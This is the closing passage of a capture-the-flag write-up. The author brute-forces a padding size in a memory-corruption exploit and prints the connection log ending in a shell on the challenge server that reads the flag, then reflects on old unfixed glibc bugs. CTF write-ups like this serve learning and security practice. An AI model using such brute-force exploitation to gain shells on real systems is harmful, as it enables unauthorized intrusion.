 So I just brute forced the junk size - most of the time the end result was
stack cookie overwrite, jump to an (uncontrolled) garbage addresses or
referencing random memory, until at the value of 70 I hit jump to 0. The end.

Well, kind of. It took like 5 minutes before `mmap()` returned 0 on the server,
but then, finally:
```
[+] Opening connection to chall.0ops.sjtu.edu.cn on port 31323: Done
[*] Closed connection to chall.0ops.sjtu.edu.cn port 31323
[+] Opening connection to chall.0ops.sjtu.edu.cn on port 31323: Done
[*] Closed connection to chall.0ops.sjtu.edu.cn port 31323
[+] Opening connection to chall.0ops.sjtu.edu.cn on port 31323: Done
[*] Closed connection to chall.0ops.sjtu.edu.cn port 31323
[+] Opening connection to chall.0ops.sjtu.edu.cn on port 31323: Done
[*] Closed connection to chall.0ops.sjtu.edu.cn port 31323
[+] Opening connection to chall.0ops.sjtu.edu.cn on port 31323: Done
[*] Closed connection to chall.0ops.sjtu.edu.cn port 31323
[+] Opening connection to chall.0ops.sjtu.edu.cn on port 31323: Done
[*] Closed connection to chall.0ops.sjtu.edu.cn port 31323
[+] Opening connection to chall.0ops.sjtu.edu.cn on port 31323: Done
[*] Closed connection to chall.0ops.sjtu.edu.cn port 31323
[+] Opening connection to chall.0ops.sjtu.edu.cn on port 31323: Done
[*] Closed connection to chall.0ops.sjtu.edu.cn port 31323
[+] Opening connection to chall.0ops.sjtu.edu.cn on port 31323: Done
[*] Switching to interactive mode
🐴: Don't frighten my horse.
🐮: Miaow miaow miaow
🍺: 🐮🍺
🐴😓
😈
$ pwd
/
$ cat flag
flag{thanks_again_Plaid_CTF_i_found_th1s}
```

## Conclusion / Moaning / Bragging

Moral of the story: by going through Glibc Bugzilla one can find
security-relevant bugs that are not being fixed for years. I bet employees of
various three-letter agencies are given ample time to do just that. Scary,
isn't it? On the bright side, `mmap_min_addr` is actually a very good idea.
Also, while knowing CTF tropes [might not be particularly useful](
https://www.youtube.com/watch?v=lxJpKUoX-6E) in the real life, it is helpful,
well, during CTFs.

I spent more time on this task than I am comfortable to admit, and a
significant portion of it has been quite frustrating. Especially the way the
challenge was masquerading itself as code golf (at least that was my
impression), while the real issue was completely different - felt a little bit
mean.

That said, the way all the small observations I made came together and finally
made sense at the end was very satisfying. So props to the author :-)
